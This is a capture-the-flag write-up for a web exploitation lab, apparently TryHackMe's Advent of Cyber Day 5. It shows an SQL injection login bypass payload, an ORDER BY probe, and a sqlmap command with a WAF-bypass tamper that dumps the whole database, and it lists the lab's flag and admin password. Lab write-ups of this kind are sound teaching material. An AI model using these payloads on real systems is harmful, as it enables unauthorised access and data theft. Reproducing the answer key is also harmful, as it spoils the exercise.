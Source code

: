 # IP=10.10.90.139


### [Day 5] Web Exploitation - Someone stole Santa's gift list ###

0. Provided information:
	* Santa's TODO: Look at alternative database systems that are better than sqlite. Also, don't forget that you installed a Web Application Firewall (WAF) after last year's attack. In case you've forgotten the command, you can tell SQLMap to try and bypass the WAF by using `--tamper=space2comment`.

1. Without using directory brute forcing, what's Santa's secret login panel?

	* Answer:
	```
	http://10.10.90.139:8000/santapanel
	```

2. Visit Santa's secret login panel and bypass the login using SQLi.

	* Answer: 
		* Inside the username field, I tried `' or true --` and it logged me in as santa.

3. How many entries are there in the gift database?

	* Command:
		* Inside the "Enter" field, I typed: `' ORDER BY 1 --`

	* Answer:
	```
	22 Rows appeared
	```

4. What did Paul ask for?

	* Answer:
	```
	github ownership
	```

5. What is the flag?

	* Notes:
		* See below.

	* Answer:
	```
	thmfox{All_I_Want_for_Christmas_Is_You}
	```

6. What is admin's password?

	* Notes:
		* See below.

	* Answer:
	```
	EhCNSWzzFP6sc7gB
	```

#### Important Notes About This Exercise ####
* For numbers 5 and 6, I ended up having to go the BurpSuite/SQLMap route in order to get ALL details about the database. Here is what I did:
	
	1. Using BurpSuite, I intercepted the 'search' request made on the /santapanel page (after bypassing the login). I searched 'candy' in the text field.
	2. With the request intercepted, I sent it to the Repeater, then right-clicked and saved the item (saved mine as 'santapanel-search-burp'). After doing this, drop the request or stop intercepting.
	3. Then in my terminal, I used this command to get everything (take note, I got the tamper and dbms values from the special hint at the start of the questions):
	```
	sqlmap -r santapanel-search-burp --dbms=sqlite --tamper=space2comment --dump-all
	```
	4. The outputted results were sent to my home directory under .local/share/sqlmap/output/<IP>. I copied the log file within the output directory into my current directory as 'sqlmap-log.txt'. That file had everything I needed to answer the remaining questions.
